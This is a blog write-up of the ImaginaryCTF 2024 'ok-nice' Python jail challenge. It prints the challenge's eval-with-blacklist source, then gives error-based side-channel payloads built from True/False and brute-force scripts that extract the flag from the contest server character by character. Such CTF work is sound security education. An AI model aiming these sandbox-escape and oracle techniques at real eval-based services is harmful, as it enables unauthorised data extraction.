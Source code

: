 ```yaml
---
title: "(ictf) ok nice writeup"
description: "I found this challenge particularly fun, So a special writeup is justified."
pubDate: "Jul 22 2024"
---
```


We recently competed in [Imaginary ctf](https://2024.imaginaryctf.org/) while all the challenges were
very fun I found this one particularly interesting, hence a special writeup is justified. This is also
my first one so please bear 🐻 with me and hopefully someday I'll write one for an entire CTF.

### Challenge 🎮

This was a misc category challenge and the description was as follows:

![ok-nice (267pts) - 64 solves by NoobMaster Description Ok nice Attachments https://cybersharing.net/s/68520aa758a9087c nc ok-nice.chal.imaginaryctf.org 1337](/oknice.png)

```py
#!/usr/bin/env python3
flag = '[REDACTED]'

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
	inp = input("Enter input: ")
	for i in blacklist:
		if i in inp:
			print("ok nice")
			exit(0)
	for i in inp:
		if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
			print("ok nice")
			exit(0)
    try:
        eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
        print("ok nice")
    except:
        print("error")
```

As we can see the challenge is a python jail where we have to execute the `flag` variable. There are some constraints
no `__builtins__` and yet `_` is blacklisted. I banged my head over this for a while, and then the realisation dawned
upon me. We cannot get the flag directly but we can perform a `side channel attack` ie other relevant info is leaked,
which can lead us upto the flag.

My first instinct was to use the `ord` function instead of numbers since numerical digits aren't allowed anywhere, but alas!
 `' and "` aren't allowed either.  
 What other way to get integers?  
  
🤔 Aha remember the thing people hate about python? `True == 1`and `False == 0` 😈.   

So we can use `True` and `False` to get the numbers. With this we can now go character to character.
Since we can do `flag[False]` to get get the 0th character, similarly `flag[True+True]` for 2nd and so on.
With this in mind, my main aim now was to throw an error when the character is right and the simples way to do that is 
the age old `1/0` trick. Hence i came up with the payload.

```py
True/(ord(flag[False])-(True+True))
```

So here the code will throw an err if the char at flag[0] has ascii value 2! boom! we done? NOPE! not yet 😅  
The other condition requires you to have less than 17 unique characters in your payload. So poof this won't work
any other way to throw an error? Ofc the classic `index out of bounds` error. So we can use the following payload.

```py
[flag][ord(flag[True-True])-(True+True)]
```
notice the sneaky True-True instead of False to reduce unique characters 👀  
oof and that's it we have arrived on the final payload now you can just write a simple script!

> or get a lil ai to write it for you 😏

```py
def find_flag_length():
    length = 2
    while True:
        try:
            sock = connect_to_server()
            payload = f"flag[{'+'.join(['True']*length)}]"
            response = send_receive(sock, payload)
            print(response)
            if "error" in response.lower():
                sock.close()
                return length
            length += 1
        except ConnectionError:
            print("con err")
        except:
            print("err")
```
A basic payload of just `flag[True+True .....]` will give you the length of the flag, run it till you get an error.
This gives us the length which was 24 characters, neat!

Now to get the flag we can use the following script.

```py
def decode_flag(length):
    flag = ""
    for i in range(17,length):
        for ascii_val in range(127,32,-1):  # Printable ASCII range
            try:
                sock = connect_to_server()
                payload = f"[flag][ord(flag[{'+'.join(['True']*i)}])-({'+'.join(['True']*ascii_val)})]"
                response = send_receive(sock, payload)
                print(response,'tried',ascii_val)

                if "error" not in response.lower():
                    flag += chr(ascii_val-1)
                    print(f"Decoded character {i+1}/{length}: {chr(ascii_val-1)}")
                    break
            except ConnectionError:
                print(f"con err {i+1}.")
                ascii_val -= 1 
            except:
                print(f"err {i+1}.")
        else:
            print(f"Failed to decode character {i+1}")
            flag += "?"
    return flag
```


And voila once it's done running which takes about 5 mins!  
We have the flag!
```
ictf{0k_n1c3_7f4d3e5a6b}
```

> The whole solving script is available [here](/breakjail.py)!

I hope you enjoyed this writeup as much as I enjoyed solving it!  
Huge thanks to NoobMaster on the ICTF discord for this very cool challenge!  

~ with 💖 by Om.

